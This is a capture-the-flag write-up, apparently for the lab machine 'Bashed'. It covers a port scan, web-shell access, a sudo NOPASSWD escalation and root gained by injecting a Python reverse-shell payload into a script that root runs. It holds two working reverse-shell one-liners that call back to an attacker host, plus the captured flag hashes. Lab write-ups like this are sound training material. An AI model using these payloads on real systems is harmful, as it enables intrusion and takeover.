



# Bashed

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.68

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## PHP Web SHELL






## The User Flag
```
www-data@bashed
:/home/arrexel# ls -l

total 4
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

```
www-data@bashed
:/home/arrexel# cat user.txt

2c281f318555dbc1b856957c7147bfc1
```

## sudoers NOPASSWD Rule
```
www-data@bashed
:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

## Privilege Escalation (scriptmanager)
`(scriptmanager : scriptmanager) NOPASSWD: ALL` sudoers rule allows `www-data` to execute command as `scriptmanager` user.

```
sudo -H -u scriptmanager bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/8888 <&1'
```

```
(remote) scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Privilege Escalation (root)
root user executes `test.py` which outputs to `test.txt`.

```
(remote) scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Mar 27 12:44 test.txt
```

```
(remote) scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

```
(remote) scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
```

Edit test.py and inject reverse shell payload.

```
import os
os.system("bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/6666 <&1'")
```

Done.

```
(remote) root@bashed:/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
(remote) root@bashed:/$ ls -la /root/
total 32
drwx------  3 root root 4096 Dec  4  2017 .
drwxr-xr-x 23 root root 4096 Dec  4  2017 ..
-rw-------  1 root root    1 Dec 23  2017 .bash_history
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Dec  4  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Dec  4  2017 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
```

```
(remote) root@bashed:/$ cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```
